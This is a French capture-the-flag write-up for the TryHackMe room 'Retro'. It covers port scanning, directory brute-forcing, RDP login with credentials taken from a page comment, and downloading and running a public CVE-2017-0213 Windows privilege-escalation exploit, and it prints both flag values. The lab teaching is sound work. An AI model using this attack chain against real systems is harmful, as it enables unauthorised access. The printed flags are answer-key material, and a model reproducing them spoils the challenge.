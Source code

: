 # Retro #  

## Task 1 Pwn ##   

```bash
sudo sh -c "echo '10.10.172.193 retro.thm ' >> /etc/hosts"
tim@kali:~$ nmap_all_no_ping retro.thm
sudo nmap -A retro.thm -p- -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-22 18:18 CET
Nmap scan report for retro.thm (10.10.172.193)
Host is up (0.036s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2021-11-22T17:20:56+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2021-11-21T17:02:30
|_Not valid after:  2022-05-23T17:02:30
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-11-22T17:20:55+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   35.16 ms 10.9.0.1
2   35.37 ms retro.thm (10.10.172.193)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.63 seconds
```

nmap nous montre plusieurs services qui sont :  
Le service HTTP sur le port 80.   
Le service ms-wbt-server sur le port 3389.    

**A web server is running on the target. What is the hidden directory which the website lives on?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster_medium retro.thm
gobuster dir -u http://retro.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -q
/retro                (Status: 301) [Size: 146] [--> http://retro.thm/retro/]
/Retro                (Status: 301) [Size: 146] [--> http://retro.thm/Retro/]
```

Avec gobuster on voit que le répertoire caché est /retro   

**user.txt**  

![page](./Task1-01.png)   

Dans la page retro on trouve un commentaire qui dit que le mot de passe est le nom de l'avatar de wade dans le film ready player one.   

Le nom de l'avatar est : Parzival   

![page](./Task1-02.png)   

On se connecte sur le contrôle à distance de windows avec les identifiants : wade:parzival   

![page](./Task1-03.png) 

Sur le bureau on trouve un fichier user.txt.
On l'ouvre avec notepad et on trouve le flag qui est : 3b99fbdc6d430bfb51c72c651a261927   

**root.txt**  

![page](./Task1-04.png) 

On regarde les informations du système d'exploitation, on est sur la version : OS Version:                10.0.14393 N/A Build 14393  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/CVE-2017-0213/CVE-2017-0213_x64.zip -nv 
2021-11-22 19:07:22 URL:https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/CVE-2017-0213/CVE-2017-0213_x64.zip [83287/83287] -> "CVE-2017-0213_x64.zip" [1]
```

On trouve l'exploit CVE-2017-0213_x64 qui permet d'avoir un accès root.  
On le télécharge.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ unzip CVE-2017-0213_x64.zip 
Archive:  CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe   

```

![page](./Task1-05.png)   

On décompresse la fichier zip.   
On partage le dossier.   

![page](./Task1-06.png)   

On copie l'exploit sur bureau.  
On exécute l'exploit et on a un shell avec les droit administrateur.   

![page](./Task1-07.png)   

Dans le bureau de l'administrateur on trouve le fichier root.txt.txt  
On le lit et on a le flag qui est : 7958b569565d7bd88d10c6f22d1c4063   